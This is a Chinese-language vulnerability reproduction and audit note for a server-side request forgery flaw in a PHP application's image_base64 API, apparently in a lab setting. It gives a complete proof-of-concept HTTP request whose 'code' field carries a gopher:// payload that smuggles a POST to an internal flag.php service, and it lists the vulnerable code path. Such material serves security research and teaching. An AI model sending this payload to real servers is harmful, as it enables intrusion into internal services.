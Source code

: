 ### 漏洞复现

使用gopher协议发送请求：

![document_image_rId74.png](assets/1703831601-c4e5451289aa25a0f1ebc332818f8561.png)

需要替换 code 为payload，如果没有接收到请求，将 payload 替换到 image 变量也是可以的。  
POC请求包：

```php
POST /api/image_base64 HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 258

{"image":"?.jpg","code":"gopher://127.0.0.1:18000/_POST%20%2Fflag.php%20HTTP%2F1.1%0A%0DHost%3A%20127.0.0.1%3A18000%0A%0DContent-Type%3A%20application%2Fx-www-form-urlencoded%0A%0DContent-Length%3A%2036%0A%0D%0A%0Dkey%3D00f001523d0b955749ea5e3b0ca09b5f.jpg"}
```

### 漏洞审计

利用链路：

```php
services/system/attachment/SystemAttachmentServices.php videoUpload 261行
    adminapi/controller/v1/file/SystemAttachment.php videoUpload 136行
```

